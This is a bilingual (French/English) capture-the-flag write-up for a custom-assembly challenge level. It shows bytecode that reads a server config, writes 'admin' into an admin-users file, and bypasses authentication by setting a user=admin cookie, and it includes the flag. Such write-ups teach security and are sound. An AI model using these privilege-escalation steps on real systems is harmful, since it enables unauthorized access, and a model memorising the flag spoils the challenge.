



# Бургаски Битове (Burgas Bytes) writeup:

# FR:

## Objectif
Le Niveau 4 introduit les opérations d'écriture et la manipulation de chaînes. L'objectif est de modifier les fichiers de configuration du serveur pour obtenir un accès administrateur, démontrant les capacités de modification de fichiers dans le langage d'assemblage personnalisé.

## Analyse
Ce niveau nécessite :
- Comprendre les opérations de lecture/écriture de fichiers
- Création et manipulation de chaînes
- Opérations multiples sur fichiers en séquence
- Concepts de sécurité d'applications web (manipulation de cookies)

Le défi implique de modifier la configuration du serveur pour obtenir un accès admin.
## Reconnaissance:

Sur la page web, nous pouvons lire les journaux d'événements du site.



Nous pouvons voir la location des fichiers de configuration du serveur ainsi qu'un bouton administrateur.

Si nous cliquons sur le bouton admin, nous obtenons un message d'erreur disant que nous ne sommes pas autorisés à accéder à cette page. En revenant sur la page d'accueil, nous pouvons voir dans les logs que l'accès a été refusé car nous ne n'avons pas de cookie "user".



Avec ces informations, nous savons que nous devons avoir un cookie "user" pour accéder à la page admin.

Si nous définissons le cookie "User" à "admin" et que nous cliquons à nouveau sur le bouton admin, nous pouvons voir dans les logs qu'il manque le fichier ADMIN_USERS_LOCATION.



À ce point, nous pouvons commencer la reconnaissance des fichiers du serveur.

## Commandes Disponibles
- **Commande Open (0x1)** : Ouvre des fichiers pour lecture/écriture
- **Commande Create Ptr (0x2)** : Alloue des tampons mémoire
- **Commande Read (0x3)** : Lit des données depuis des fichiers
- **Commande Write (0x4)** : Écrit des données dans des fichiers
- **Commande Set Value (0x5)** : Définit des valeurs dans les registres
- **Commande Create String (0xB)** : Crée des chaînes dans la section de données


## Solution Étape par Étape

### Étape 1 : Lire la Configuration du Serveur

#### Séquence de Commandes :
```
OpenCommand(b"/server_data/server.conf", 0, 5)
    ↓
CreatePtrCommand(100, 3)
    ↓
ReadCommand(100, 5, 3)
    ↓
SetValueCommand(1, 6)
    ↓
WriteCommand(100, 3, 6)
```

#### Explication Détaillée :
1. **OpenCommand(b"/server_data/server.conf", 0, 5)** :
   - Ouvrir le fichier de configuration du serveur en mode lecture
   - Stocker le descripteur de fichier dans le registre 5

2. **CreatePtrCommand(100, 3)** :
   - Allouer 100 octets de mémoire
   - Stocker le pointeur dans le registre 3
   - **Attention** : Écrase le registre r10/r11

3. **ReadCommand(100, 5, 3)** :
   - Lire 100 octets depuis le fichier de config
   - Utiliser le descripteur de fichier du registre 5
   - Stocker les données dans le tampon pointé par le registre 3

4. **SetValueCommand(1, 6)** :
   - Définir la valeur 1 dans le registre 6
   - Ceci représente le descripteur de fichier stdout

5. **WriteCommand(100, 3, 6)** :
   - Écrire 100 octets depuis le tampon (registre 3)
   - Vers le descripteur de fichier dans le registre 6 (stdout)
   - Ceci affiche la configuration actuelle

#### Bytecode :
```
01182f7365727665725f646174612f7365727665722e636f6e6602000002050002026400020300030264000205000203000502010002060004026400020300020600
```

#### Output:
```
------- EXECUTION RESULT -------
Output:

PORT=5000
ADMIN_USERS_LOCATION=/server_data/admin_users
EVENT_LOG=/server_data/events

------- END OF RESULT -------
```

Avec cette information, nous savons où se trouve le fichier des utilisateurs admin.

### Étape 2 : Ajouter un Utilisateur Admin

#### Séquence de Commandes :
```
OpenCommand(b"/server_data/admin_users", 0, 5)
    ↓
CreateStringCommand("admin", 1, 1)
    ↓
WriteCommand(5, 1, 5)
```

#### Explication Détaillée :
1. **OpenCommand(b"/server_data/admin_users", 0, 5)** :
   - Ouvrir le fichier des utilisateurs admin
   - Stocker le descripteur de fichier dans le registre 5

2. **CreateStringCommand("admin", 1, 1)** :
   - Créer la chaîne "admin" dans la section de données
   - Stocker le pointeur dans le registre 1
   - Utiliser l'ID 1 pour la chaîne

3. **WriteCommand(5, 1, 5)** :
   - Écrire 5 octets (longueur de "admin")
   - Depuis le tampon de chaîne dans le registre 1
   - Vers le fichier des utilisateurs admin (registre 5)

#### Bytecode :
```
01182f7365727665725f646174612f61646d696e5f75736572730201000205000b0561646d696e02010002010004020500020100020500
```

### Étape 3 : Authentification
```
Définir cookie user=admin
```

Cette étape implique de définir un cookie web pour s'authentifier en tant qu'utilisateur admin, complétant l'escalade de privilèges.

### Résultat Final
En définissant le cookie "User" à "admin" et en cliquant sur le bouton admin on obtient l'accès à la page admin.
## Résumé de la Solution Complète

L'attaque fonctionne par :
1. **Collecte d'Informations** : Lire les journaux d'événements sur la page web pour comprendre les données nécessaires
2. **Fuite d'Informations Sensibles** : Extraire les détails nécessaires de la configuration du serveur
3. **Escalade de Privilèges** : Créer le fichier des utilisateurs admin et ajouter "admin" au fichier
4. **Contournement d'Authentification** : Définir le cookie utilisateur à "admin"

## Flag
`flag-4e3941d5-afb5-4255-ac3e-dedaa3fe9174`

# EN:

## Objective
Level 4 introduces write operations and string manipulation. The goal is to modify server configuration files to gain administrative access, demonstrating file modification capabilities in the custom assembly language.

## Analysis
This level requires:
- Understanding file read/write operations
- String creation and manipulation
- Multiple file operations in sequence
- Web application security concepts (cookie manipulation)

The challenge involves modifying server configuration to gain admin access.

## Reconnaissance:

On the web page, we can read the site's event logs.


We can see the location of the server configuration files as well as an admin button.

If we click on the admin button, we get an error message saying we are not authorized to access this page. Going back to the homepage, we can see in the logs that access was denied because we don't have a "user" cookie.


With this information, we know that we need to have a "user" cookie to access the admin page.

If we set the "User" cookie to "admin" and click the admin button again, we can see in the logs that the ADMIN_USERS_LOCATION file is missing.


At this point, we can start reconnaissance of the server files.

## Available Commands
- **Open Command (0x1)**: Opens files for reading/writing
- **Create Ptr Command (0x2)**: Allocates memory buffers
- **Read Command (0x3)**: Reads data from files
- **Write Command (0x4)**: Writes data to files
- **Set Value Command (0x5)**: Sets values in registers
- **Create String Command (0xB)**: Creates strings in data section

## Step-by-Step Solution

### Step 1: Read Server Configuration

#### Command Sequence:
```
OpenCommand(b"/server_data/server.conf", 0, 5)
    ↓
CreatePtrCommand(100, 3)
    ↓
ReadCommand(100, 5, 3)
    ↓
SetValueCommand(1, 6)
    ↓
WriteCommand(100, 3, 6)
```

#### Detailed Explanation:
1. **OpenCommand(b"/server_data/server.conf", 0, 5)**:
   - Open the server configuration file in read mode
   - Store file descriptor in register 5

2. **CreatePtrCommand(100, 3)**:
   - Allocate 100 bytes of memory
   - Store pointer in register 3
   - **Warning**: Overwrites r10/r11 register

3. **ReadCommand(100, 5, 3)**:
   - Read 100 bytes from the config file
   - Use file descriptor from register 5
   - Store data in buffer pointed to by register 3

4. **SetValueCommand(1, 6)**:
   - Set value 1 in register 6
   - This represents stdout file descriptor

5. **WriteCommand(100, 3, 6)**:
   - Write 100 bytes from buffer (register 3)
   - To file descriptor in register 6 (stdout)
   - This displays the current configuration

#### Bytecode:
```
01182f7365727665725f646174612f7365727665722e636f6e6602000002050002026400020300030264000205000203000502010002060004026400020300020600
```

#### Output:
```
------- EXECUTION RESULT -------
Output:

PORT=5000
ADMIN_USERS_LOCATION=/server_data/admin_users
EVENT_LOG=/server_data/events

------- END OF RESULT -------
```

With this information, we know where the admin users file is located.

### Step 2: Add Admin User

#### Command Sequence:
```
OpenCommand(b"/server_data/admin_users", 0, 5)
    ↓
CreateStringCommand("admin", 1, 1)
    ↓
WriteCommand(5, 1, 5)
```

#### Detailed Explanation:
1. **OpenCommand(b"/server_data/admin_users", 0, 5)**:
   - Open the admin users file
   - Store file descriptor in register 5

2. **CreateStringCommand("admin", 1, 1)**:
   - Create string "admin" in data section
   - Store pointer in register 1
   - Use ID 1 for the string

3. **WriteCommand(5, 1, 5)**:
   - Write 5 bytes (length of "admin")
   - From string buffer in register 1
   - To admin users file (register 5)

#### Bytecode:
```
01182f7365727665725f646174612f61646d696e5f75736572730201000205000b0561646d696e02010002010004020500020100020500
```

### Step 3: Authentication
```
Set cookie user=admin
```

This step involves setting a web cookie to authenticate as an admin user, completing the privilege escalation.

### Final Result
By setting the "User" cookie to "admin" and clicking on the admin button we get access to the admin page.

## Complete Solution Summary

The attack works by:
1. **Information Gathering**: Reading the event logs on the webpage to understand the data we need
2. **Leaking Sensitive Information**: Extracting necessary details from the server configuration
3. **Privilege Escalation**: Create the admin users file and add "admin" to the file
4. **Authentication Bypass**: Setting the user cookie to "admin"

## Flag
`flag-4e3941d5-afb5-4255-ac3e-dedaa3fe9174`
